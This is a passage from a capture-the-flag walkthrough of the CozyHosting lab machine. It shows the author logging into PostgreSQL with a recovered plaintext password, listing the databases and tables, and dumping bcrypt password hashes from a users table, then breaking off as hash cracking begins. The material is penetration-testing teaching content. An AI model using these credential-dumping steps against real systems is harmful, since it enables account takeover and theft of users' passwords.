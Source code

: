 
    app@cozyhosting:/$ PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
    psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
    SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
    Type "help" for help.

    postgres=#



There is really one interesting database:



    postgres=# \list
                                       List of databases
        Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
    -------------+----------+----------+-------------+-------------+-----------------------
     cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
     postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
     template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
                 |          |          |             |             | postgres=CTc/postgres
     template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
                 |          |          |             |             | postgres=CTc/postgres
    (4 rows)



It has two tables, `hosts` and `users`:



    cozyhosting=# \dt
             List of relations
     Schema | Name  | Type  |  Owner   
    --------+-------+-------+----------
     public | hosts | table | postgres
     public | users | table | postgres
    (2 rows)



The `hosts` table isn't interesting, but the `users` table has hashes in
it:



    cozyhosting=# select * from users;
       name    |                           password                           | role  
    -----------+--------------------------------------------------------------+-------
     kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
     admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
    (2 rows)



### Crack Hash

I'll make a `hashes` file with those two hashes:
